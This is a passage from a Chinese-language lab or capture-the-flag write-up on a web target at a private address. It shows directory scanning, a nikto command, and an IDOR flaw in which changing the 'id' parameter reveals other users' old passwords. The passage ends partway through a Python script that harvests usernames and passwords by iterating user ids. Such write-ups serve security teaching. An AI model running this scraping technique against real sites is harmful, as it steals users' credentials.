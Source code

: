 ```text
/img/                 (Status: 200) [Size: 5255]
/css/                 (Status: 200) [Size: 7563]
/lib/                 (Status: 200) [Size: 2127]
/js/                  (Status: 200) [Size: 7453]
/customer/            (Status: 200) [Size: 2175]
/images/              (Status: 200) [Size: 2889]
/fonts/               (Status: 200) [Size: 10874]
/icons/               (Status: 403) [Size: 279]
/modules/             (Status: 200) [Size: 57253]
/server-status/       (Status: 403) [Size: 279]
```

### 漏洞扫描

```bash
nikto -h http://10.161.187.177
```



## 漏洞利用

实地考察一下：

![image-20240317160745008](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403171652907.png)

发现登录页面：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403171652908.png" alt="image-20240317160808569" style="zoom: 33%;" />

注册一个账号登录进去看看：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403171652909.png" alt="image-20240317161011775" style="zoom: 33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403171652910.png" alt="image-20240317161027695" style="zoom:33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403171652911.png" alt="image-20240317161221143" style="zoom:33%;" />

发现这里有个地方存在漏洞：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403171652912.png" alt="image-20240317161250545" style="zoom:33%;" />

url切换为`id=1`时，可以切换用户：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403171652913.png" alt="image-20240317161325462" style="zoom:50%;" />

再通过改密码，可以看到原来的密码是多少：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403171652914.png" alt="image-20240317161359793" style="zoom:50%;" />

尝试进行搜集一下：

```python
# exploit.py
import requests
from bs4 import BeautifulSoup as bs
from tqdm import tqdm

def get_user_data(url, user_id, header):
    try:
        response = requests.get(url + "/?id=" + str(user_id), headers=header, timeout=30)
        response.raise_for_status()
        soup = bs(response.text, 'html.parser')
        username = soup.find("div", class_="contact_inner").h3.text.strip()
        password = soup.find('input', attrs={'id': 'oldpassword'})['value'].strip()
        return username, password
```